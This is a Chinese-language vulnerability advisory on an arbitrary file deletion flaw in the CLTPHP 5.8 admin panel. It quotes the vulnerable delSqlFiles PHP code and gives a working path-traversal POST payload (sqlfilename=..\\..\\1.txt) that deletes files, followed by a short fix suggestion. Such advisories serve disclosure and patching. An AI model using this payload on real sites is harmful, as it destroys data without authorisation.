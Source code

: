 CLTPHP 5.8 后台任意文件删除漏洞
===============================

一、漏洞简介
------------

CLTPHP是基于ThinkPHP5开发，后台采用Layui框架的内容管理系统，

二、漏洞影响
------------

CLTPHP 5.8及之前版本

三、复现过程
------------

### 漏洞分析

`app/admin/controller/Database.php` 第221-248行：

    public function delSqlFiles() {  
      $batchFlag = input('param.batchFlag', 0, 'intval');  
      //批量删除  
      if ($batchFlag) {  
        $files = input('key', array());  
      }else {  
        $files[] = input('sqlfilename' , '');  
      }  
      if (empty($files)) {  
    \10.     $result['msg'] = '请选择要删除的sql文件!';  
    \11.     $result['code'] = 0;  
    \12.     return $result;  
    \13.   }  
    \14.  
    \15.   foreach ($files as $file) {  
    \16.     $a = unlink($this->datadir.'/' . $file);  
    \17.   }  
    \18.   if($a){  
    \19.     $result['msg'] = '删除成功!';  
    \20.     $result['url'] = url('restore');  
    \21.     $result['code'] = 1;  
    \22.     return $result;  
    \23.   }else{  
    \24.     $result['msg'] = '删除失败!';  
    \25.     $result['code'] = 0;  
    \26.     return $result;  
    \27.   }  
    \28. }  

在这段函数中，参数sqlfilename未经任何处理，直接带入unlink函数中删除，导致程序在实现上存在任意文件删除漏洞，攻击者可通过该漏洞删除任意文件。

### 漏洞复现

构造URL，成功删除根目录的1.txt文件

    http://www.0-sec.org/admin/Database/delSqlFiles.html

     
    POST: sqlfilename=..\\..\\1.txt

![11.png](./.resource/CLTPHP5.8后台任意文件删除漏洞/media/rId26.png)

### 修复建议

> 对于要删除的文件，通过正则判断用户输入的参数的格式，看输入的格式是否合法。
